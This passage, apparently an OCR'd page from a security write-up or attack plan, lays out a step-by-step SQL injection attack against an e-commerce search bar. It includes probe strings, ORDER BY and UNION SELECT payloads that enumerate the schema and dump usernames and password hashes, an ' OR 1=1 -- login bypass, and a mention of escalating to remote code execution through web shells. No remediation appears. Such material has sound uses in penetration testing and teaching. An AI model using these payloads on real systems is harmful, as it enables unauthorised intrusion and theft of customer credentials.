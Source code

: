 - **Vulnerability 1: SQL Injection via Search Bar**
    
    - **Step 1: Test for SQL Injection vulnerability.**
        
        - Input a single quote `'` into the search bar (e.g., `search='`). If a SQL error (e.g., `Unclosed quotation mark`) is returned, this indicates a high likelihood of SQL Injection.
            
        - If no error, try commenting out the rest of the query: `search=product' --` or `search=product' #`. If the page loads normally, it's a strong indicator.
            
        - Try boolean-based payloads: `search=product' AND 1=1 --` (should return results) vs. `search=product' AND 1=2 --` (should return no results).
            
    - **Step 2: Determine table/column structure (Union-based SQLi, if possible).**
        
        - Use `ORDER BY` to determine the number of columns in the query: `search=product' ORDER BY 10 --` (increment until an error occurs, indicating number of columns).
            
        - Use `UNION SELECT` to retrieve data from other tables. First, determine injectable columns: `search=' UNION SELECT 1,2,3,4,5 --` (replacing numbers with nulls or strings to match column types until no error, indicating which columns display output).
            
    - **Step 3: Exfiltrate database schema and data.**
        
        - Using `UNION SELECT`, inject queries to retrieve database version, current user, database name:
            
            - `search=product' UNION SELECT 1, version(), database(), 4, 5 --`
                
        - Retrieve table names from information schema:
            
            - `search=product' UNION SELECT 1, table_name, 3, 4, 5 FROM information_schema.tables WHERE table_schema = database() --`
                
        - Retrieve column names from sensitive tables (e.g., `users` table):
            
            - `search=product' UNION SELECT 1, column_name, 3, 4, 5 FROM information_schema.columns WHERE table_name = 'users' --`
                
        - Finally, dump sensitive data (e.g., usernames and password hashes) from the `users` table:
            
            - `search=product' UNION SELECT 1, username, password_hash, 4, 5 FROM users --`
                
    - **Step 4: Attempt authentication bypass (if applicable).**
        
        - If there's a login form that uses SQL, try payloads like `username=' OR 1=1 --` and `password=any_password` to log in as the first user (often an admin).
            

#### 3. Escalation & Impact:

- **Privilege Escalation:**
    
    - **Application-level Admin Access:** If authentication bypass is successful, the attacker can gain full admin control over the e-commerce platform, leading to modification of product prices, fraudulent orders, or access to sensitive customer data.
        
    - **Database-level Admin Access:** If the compromised database user has high privileges (e.g., `FILE` privilege on MySQL), the attacker could achieve **Remote Code Execution (RCE)** on the database server itself by writing web shells or malicious files to the filesystem. This is a severe escalation.
        